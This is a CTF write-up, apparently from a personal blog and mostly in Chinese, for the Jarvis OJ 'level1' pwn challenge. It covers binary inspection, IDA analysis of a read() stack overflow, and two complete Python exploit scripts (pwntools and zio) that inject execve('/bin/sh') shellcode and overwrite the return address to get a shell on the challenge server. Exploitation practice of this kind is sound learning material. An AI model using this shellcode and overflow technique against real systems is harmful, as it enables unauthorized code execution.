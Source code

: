 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level1
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Download:
https://dn.jarvisoj.com/challengefiles/level1.80eacdcd51aca92af7749d96efad7fb5

Address:
nc pwn2.jarvisoj.com 9877
```
<!-- more -->


### 0x01 查看文件基本信息

```
file level1
checksec level1
```

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x00.png)

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x01.png)


### 0x02 在kali linux 2.0中执行程序
```
chmod a+x ./level1
./level1
```

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x02.png)


### 0x03 IDA中分析可执行文件

直接看C代码，很明显vulnerable_function就是溢出函数了

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x03.png)

跟进去果然read溢出

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x04.png)

看一下缓冲区，因为没有禁止栈执行，我们可以在栈区放置一段shellcode

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x05.png)


### 0x04 根据以上分析写成exploit

调用pwntools

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
import re
distance = 0x88 + 4
shellcode = '\x31\xc0\x31\xdb\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x51\x52\x55\x89\xe5\x0f\x34\x31\xc0\x31\xdb\xfe\xc0\x51\x52\x55\x89\xe5\x0f\x34'
junk = "A" * (distance - len(shellcode))
# Io = process('.\level1')
Io = remote('pwn2.jarvisoj.com', 9877)
line = Io.readline()
line = re.findall(r":(.+)\?", line)
address = p32(int(line[0],16))
payload = shellcode + junk + address
Io.send(payload)
Io.interactive()
```

调用zio
```
#!/usr/bin/python
# -*- coding:utf8 -*-

import zio
distance = 0x88 + 4
shellcode = '\x31\xc0\x31\xdb\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x51\x52\x55\x89\xe5\x0f\x34\x31\xc0\x31\xdb\xfe\xc0\x51\x52\x55\x89\xe5\x0f\x34'
junk = "A" * (distance - len(shellcode))
# Io = zio.zio("./level1")
Io = zio.zio(("pwn2.jarvisoj.com", 9877))
line = Io.readline()
address = zio.l32(int(line[len("What's this:"):-2], 16))
payload = shellcode + junk + address
Io.write(payload)
Io.interact()
```

得到flag

![](/assets/img/ctf/pwn/2017-06-16-jarvisoj-level1/0x06.png)